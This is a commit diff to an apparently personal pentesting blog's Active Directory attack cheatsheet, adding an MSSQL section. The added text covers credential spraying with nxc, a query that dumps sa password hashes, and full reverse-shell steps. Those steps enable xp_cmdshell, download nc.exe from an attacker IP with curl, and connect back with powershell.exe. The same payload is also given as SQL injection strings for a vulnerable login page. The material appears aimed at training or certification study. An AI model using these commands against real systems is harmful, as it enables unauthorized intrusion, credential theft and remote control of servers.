

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 19130 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -613,6 +613,84 @@
 
 # Note: Pay attention to case sensitive, upper and lower case. Try both tools always, one might fail
 ```
+### MSSQL Basics
+```shell
+# Enumerating MSSQL
+nxc mssql ips_internal.txt -u john -p 'Password123!' --continue-on-success
+nxc mssql ips_internal.txt -u john -H 1a06b4248879e68a498d3bac51bf91c9 --continue-on-success
+
+# Credentialed Login
+impacket-mssqlclient john:'Password123!'@172.16.150.10 -windows-auth
+
+# MSSQL queries
+# Show current username
+SELECT USER_NAME();
+SELECT CURRENT_USER;
+
+# Show server version
+SELECT @@VERSION;
+
+# Get server name
+SELECT @@SERVERNAME;
+
+# Show list of databases ("master." is optional)
+SELECT name FROM master.sys.databases;
+EXEC sp_databases;
+
+# Show only user-created databases (exclude built-in databases)
+SELECT name FROM master.sys.databases WHERE name NOT IN ('master', 'tempdb', 'model', 'msdb');
+
+# Use a specific database
+USE master;
+
+# Get table names from a specific database
+SELECT table_name FROM somedatabase.information_schema.tables;
+
+# Get column names from a specific table
+SELECT column_name FROM somedatabase.information_schema.columns WHERE table_name = 'sometable';
+
+# Get credentials for 'sa' login user
+SELECT name, master.sys.fn_varbintohexstr(password_hash) FROM master.sys.sql_logins;
+
+# Get credentials from 'vorkharium' database using 'dbo' table schema
+SELECT * from vorkharium.dbo.users;
+```
+### MSSQL Reverse Shell
+```shell
+# Getting Reverse Shell using nc.exe
+# Start python3 http.server at port 8080 in Kali hosting nc.exe
+python3 -m http.server 8080
+# Start nc listener at port 443 in Kali
+sudo nc -lvnp 443
+# Getting Reverse Shell using MSSQL
+EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE;
+EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE;
+EXECUTE xp_cmdshell "curl http://192.168.45.200:8080/nc.exe -o C:\\Users\\Public\\nc.exe";
+EXECUTE xp_cmdshell "C:\\Users\\Public\\nc.exe -nv 192.168.45.200 443 -e powershell.exe";
+
+# Getting Reverse Shell using NetExec and CrackMapExec
+# Start nc listener at port 443 in Kali
+sudo nc -lvnp 443
+# Getting a reverse shell
+nxc mssql 172.16.150.10 -d vorkharium.com -u john -p Password123 -x "Enter revshells.com PowerShell#3 (Base64) Reverse Shell here"
+crackmapexec mssql 172.16.150.10 -d vorkharium.com -u john -p Password123 -x "Enter revshells.com PowerShell#3 (Base64) Reverse Shell here"
+
+# Using MSSQL Injection through vulnerable website
+# Go to /login.aspx
+http://vulnerablewebsite.com/login.aspx
+
+# Start python3 server where nc.exe is hosted
+python3 -m http.server 8080
+
+# Start nc listener
+nc -lvnp 443
+
+# Exploit MSSQL Injection to get a shell in our nc listener port 4444
+' EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; -- //
+' EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- //
+' EXECUTE xp_cmdshell "curl http://192.168.45.200:8080/nc.exe -o C:\\Users\\Public\\nc.exe"; -- //
+' EXECUTE xp_cmdshell "C:\\Users\\Public\\nc.exe -nv 192.168.45.200 443 -e powershell.exe"; -- //
+```
 ### Silver Ticket
 ```shell
 Comming soon.
@@ -650,8 +728,3 @@
 # 4194304 sets the PASSWD_NOTREQD flag, allowing the account to operate without a required password
 ```
 More ACLs Abuse Attacks on https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
-
-### MSSQL to gain Shell Access
-```shell
-Comming soon.
-```
````
